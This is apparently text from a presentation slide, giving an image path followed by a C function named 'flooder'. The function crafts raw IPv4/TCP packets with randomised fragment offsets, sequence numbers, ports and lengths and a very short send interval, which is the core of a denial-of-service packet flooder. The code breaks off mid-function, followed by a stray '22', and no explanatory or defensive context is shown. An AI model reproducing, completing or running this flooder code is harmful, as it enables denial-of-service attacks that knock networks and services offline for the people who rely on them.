

void flooder(void)
{
    struct timespec ts;
    int I;
    memset(&packet, 0, sizeof(packet));
    ts.tv_sec                   = 0;
    ts.tv_nsec                  = 100;
    packet.ip.ip_hl             = 5;
    packet.ip.ip_v              = 4;
    packet.ip.ip_p              = IPPROTO_TCP;
    packet.ip.ip_tos            = 0xc9;
    packet.ip.ip_id             = radd;
    packet.ip.ip_len            = FIX(sizeof(packet));
    packet.ip.ip_off            = random();
    packet.ip.ip_ttl            = 255;
    packet.ip.ip_dst.s_addr     = radd;

    packet.tcp.th_flags         = 0;
    packet.tcp.th_win           = 0;
    packet.tcp.th_seq           = random();
    packet.tcp.th_ack           = 0;
    packet.tcp.th_off           = 0;
    packet.tcp.th_urp           = 0;
    packet.tcp.th_dport         = random();
    cksum.pseudo.daddr          = sradd;
    cksum.pseudo.mbz            = 0;
    cksum.pseudo.ptcl           = IPPROTO_TCP;
    cksum.pseudo.tcpl           = random();
22